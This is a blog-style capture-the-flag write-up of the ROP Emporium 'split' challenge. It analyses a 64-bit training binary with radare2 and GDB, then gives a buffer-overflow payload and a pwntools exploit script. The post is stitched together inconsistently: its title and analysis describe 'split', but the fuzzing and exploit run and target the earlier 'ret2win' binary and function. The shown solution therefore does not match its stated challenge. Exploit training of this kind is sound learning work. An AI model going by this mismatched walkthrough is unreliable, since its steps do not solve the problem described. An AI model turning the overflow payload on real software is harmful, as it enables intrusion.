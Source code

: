 ```yaml
---
layout: post
title:  "ROP Emporium - split"
date:   2020-05-8 14:07:19
categories: [ROP]
excerpt: "Doing these challenges to improve my binary exploitation skills and teach my self Return oriented programming (ROP). These challenges use the usual CTF objective of retrieving the contents of a file named flag.txt from a remote machine by exploiting a given binary"

comments: true
---
```



## Introduction
Second challenge from ROP Emporium, in this we are going to write a small ROP chain.

###### Challenge Description 
Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain. 

###### About the Binary:
Our binary is usual ELF executable in 64-bit architecture. 

![source-01](/img/Screenshot_2020-05-09_11-12-06.png){: .align-left}


PIE isn't enabled so the binary will be loaded at a fixed location into memory (0x400000) everytime. With nx set to true, we know shellcode cannot be executed off the stack and we know binary has ASLR disabled.

## Analyzing the 64bit ELF binary
Lets load the binary with radare2 and dump the functions.I switched to radare2 from GDB, just the sacke of learning the tool. Radare2 is a free RE tool.

![source-01](/img/Screenshot_2020-05-13_08-41-16.png){: .align-left}


Here we can see interesting functions:
- main()
- pwnme()
- usefulFunction()

So lets see what these fucntions does!

###### main():


![source-01](/img/Screenshot_2020-05-11_09-01-32.png){: .align-left}


The only interesting thing here for us is, its calling a function name pwnme()other than that it is reading some user input using fget()

###### pwnme():


![source-01](/img/Screenshot_2020-05-09_11-16-18.png){: .align-left}


Just like in retwin challenge, we have a 32 byte buffer that can be overflowed with fgets that takes 96 characters from the user.


###### usefulFunction()


![source-01](/img/Screenshot_2020-05-13_08-34-01.png){: .align-left}


This function call system with /bin/cat flag.txt, so we need to return to this function to exploit the binary successfuly. 


## Fuzzing:
So now the binary analysis is out of the way. Lets start fuzzing the binary.
Run the program and send more than 40 bytes
```

➜  ret2win ./ret2win      
ret2win by ROP Emporium
64bits
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaa
[5]    74490 segmentation fault  ./ret2win

```
As expected the program segfaulted (crashed),we have a valid crash scenario here,but we are not sure if we have overwritten any registers.So lets attach the binary to gdb and analyze the crash.

Attach the binary to GDB using gdb -q return2win

###### Calculating offset
Generate cylic pattern and send to the program
```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
```
Copy past the generated pattern to the program


![source-01](/img/Screenshot_2020-05-09_11-20-57.png){: .align-left}


The program has crashed and we have overwritten the rsp,to find the extact offset copy the hex at rsp to the clipboard, then type pattern offset.


![source-01](/img/Screenshot_2020-05-09_11-23-21.png){: .align-left}


## Exploiting:

We have 40 bytes to fill the stack and then we need to put the address of the ret2win function.So that the saved return address will contain the address of the ret2win function (0x400811), and the program  execute the function.

The exploit then will look as follows:

**Payload: 

The payload will be very simple, just our junk and return address, when writting return address keep an eye for endianess.

[40 chars of junk] + [address of ret2win]  "A"*40             + "\x11\x08\x40"

**Here is my final exploit:

> python -c 'print "\x90"*40 + "\x11\x08\x40\x00\x00\x00\x00\x00"' | ./ret2win


![source-01](/img/Screenshot_2020-05-09_15-53-55.png){: .align-left}



Putting it all together,and i developed the final exploit with pwntools (python library) just for fun and learning.

```python

#!/usr/bin/python                                                              
 from pwn import *                                                              
 def main():                                                                    
     context.log_level = "info"                                                 
     elf = ELF('./ret2win')                                                     
     info(elf.symbols.ret2win)                                                  
     p = process(elf.path)                                                      
     ret2win = p64(elf.symbols.ret2win)                                         
     payload = b"A"*40 + ret2win                                                
     p.sendline(payload)                                                        
     p.recvuntil("Here's your flag:")                                           
     flag = p.recvline()                                                        
     success(flag)                                                              
 if __name__== "__main__":                                                      
     main()    
```

![source-01](/img/Screenshot_2020-05-09_16-20-05.png){: .align-left}


w00t we got the flag!

###### End 

Thats the end of ret2win challenge,it is a very simple one but as i progress through the challenges the exploits will become more complex and fun. Remember never stop learning, Cheers!.

> Code for this challenge  https://github.com/d3b4g/ROP-Emporium



